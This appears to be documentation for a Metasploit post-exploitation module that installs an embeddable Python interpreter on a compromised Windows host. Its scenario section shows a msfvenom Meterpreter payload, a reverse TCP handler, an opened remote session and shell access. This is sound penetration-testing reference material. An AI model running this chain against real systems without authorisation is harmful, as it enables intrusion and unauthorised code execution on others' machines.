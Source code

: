 This module downloads an embeddable Python3 interpreter onto the target file system, granting pentesters access to a lightweight Python interpreter. This module does not require administrative privileges or user interaction with installation prompts.
### Creating A Testing Environment

  This module has been tested against:

1. Windows 10, 1903

## Verification Steps

  1. Start msfconsole
  2. Get a Meterpreter session running as a low privilege user
  3. Do: `use post/windows/manage/install_python`
  4. Do: `set session #`
  5. Optional Do: `set PYTHON_URL`
  6. Optional Do: `set FILE_PATH`
  7. Do: `run`


## Options

  **PYTHON_URL**

  Specifies the URL used to download the Python embeddable zip file. Downloads Python version 3.8.2 by default.

  **FILE_PATH**

  Specifies the directory to place the Python embeddable zip file.
  Places Python zip file in the current working directory by default.

  **CLEANUP**

  If true, this option will delete the Python zip file as well as its extracted contents. It will also terminate running processes with name 'python', as you cannot delete the Python interpreter if it is actively running.

## Scenarios

Get initial access: Create a Meterpreter exe using msfvenom, then transfer it to the target system via web server, SMB, etc. Execute the Meterpreter payload as a non-administrative user.

    msf5 > handler -H 0.0.0.0 -P 4444 -p windows/meterpreter/reverse_tcp
    [*] Payload handler running as background job 0.

    [*] Started reverse TCP handler on 0.0.0.0:4444 
    msf5 > 
    [*] Sending stage (180291 bytes) to 192.168.13.129
    [*] Meterpreter session 1 opened (192.168.13.130:4444 -> 192.168.13.129:50069) at 2020-03-04 20:32:59 -0500




Use the post module to install Python on the target filesystem

    msf5 > use post/windows/manage/install_python 
    msf5 post(windows/manage/install_python) > set SESSION 1
    SESSION => 1
    msf5 post(windows/manage/install_python) > exploit 

    [*] Downloading Python embeddable zip from https://www.python.org/ftp/python/3.8.2/python-3.8.2-embed-win32.zip
    [+] Compressed size: 1112
    [*] Extracting Python zip file: .\python-3.8.2-embed-win32.zip
    [+] Compressed size: 952
    [*] Ready to execute Python; spawn a command shell and enter:
    [+] .\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    [!] Avoid using this python.exe interactively, as it will likely hang your terminal; use script files or 1 liners instead
    [*] Post module execution completed

Verify Python works

    msf5 post(windows/manage/install_python) > sessions -i 1 
    [*] Starting interaction with 1...

    meterpreter > shell
    Process 2688 created.
    Channel 5 created.
    Microsoft Windows [Version 10.0.17763.1039]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Users\buddha\AppData\Local\Temp>.\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    .\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    Hello, world!

Note that running this Python interpreter interactively may hang your command shell.
